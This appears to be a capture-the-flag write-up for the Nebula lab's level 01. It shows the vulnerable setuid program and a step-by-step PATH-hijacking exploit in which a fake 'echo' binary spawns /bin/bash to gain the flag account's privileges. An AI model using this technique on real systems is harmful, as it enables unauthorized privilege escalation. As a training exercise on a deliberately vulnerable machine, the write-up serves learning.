 ```yaml
---
layout: default
title: "Nebula01"
tags: Nebula
description: "Writing a simple binary to exploit the application via $PATH variable"
---
```



## Level 01

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in the `/home/flag01` directory.

### Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Getting the flag

First, let's login via `ssh` and check the binary at `/home/flag01`. 

```
level01@nebula:/home/flag01$ ./flag01 
and now what?
```

From the quick audit of the source code, we can see that `echo` is called by the relative path instead of the absolute one (`echo` instead of `/bin/echo`). We can abuse that and create another binary named `echo` in another location and add it to the `$PATH`, so Linux will prioritize our "malicious" binary instead of the right one. 

Let's create a new folder in `/tmp` and write a simple program there:

```
flag01@nebula:~$ cd /tmp
flag01@nebula:/tmp$ mkdir level01 && cd level01
flag01@nebula:/tmp/level01$ nano echo.c
```

Our `echo` will simply call the `/bin/bash`. It could be anything, really, but I prefer to spawn a shell if I have a chance to do so.

```
#include<stdio.h>

int main()
{
  system("/bin/bash");
}
```

Compile that program with `gcc` 

```
flag01@nebula:/tmp/level01$ gcc echo.c -o echo
```

Let's check the content of the `$PATH` variable:

```
flag01@nebula:/tmp/level01$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

We can add our folder with the binary to the global `$PATH`:

```
flag01@nebula:/tmp/level01$ PATH=/tmp/level01:$PATH

flag01@nebula:/tmp/level01$ echo $PATH
/tmp/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Alright, now when we will execute the binary in the `/home/flag01` it will call our `echo` and spawn a shell:

```
flag01@nebula:/tmp/level01$ /home/flag01/flag01 
flag01@nebula:/tmp/level01$ getflag 
You have successfully executed getflag on a target account
```
